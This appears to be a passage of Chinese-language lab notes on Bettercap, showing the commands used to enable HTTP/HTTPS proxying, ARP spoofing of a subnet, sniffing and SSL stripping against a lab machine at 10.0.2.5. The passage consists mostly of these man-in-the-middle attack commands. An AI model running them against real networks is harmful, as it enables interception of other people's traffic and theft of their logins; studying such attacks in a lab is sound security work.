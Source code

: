 ### 开启http和https代理，尝试进行https劫持

输入如下指令

    net.probe on
    http.proxy on
    https.proxy on
    arp.spoof on
    # 发现整个子网只有我的实验机，偷懒就进行了整个子网的arp欺骗

http网站进行访问，并截获交换信息。但如果访问`github.com`或`baidu.com`等经过https加密过的网站，浏览器会阻止访问，提示连接不安全

![](\img\Bettercap\https.png)

### 尝试进行ssl剥离

在代理开启时，sslstrip是默认关闭的，我们进行手动开启

    set http.proxy.sslstrip true
    set https.proxy.sllstrip true
    set arp.spoof.internal true
    set arp.spoof.targets 10.0.2.5
    set net.sniff.verbose false

    net.sniff on
    http.proxy on
    https.proxy on
    arp.spoof on
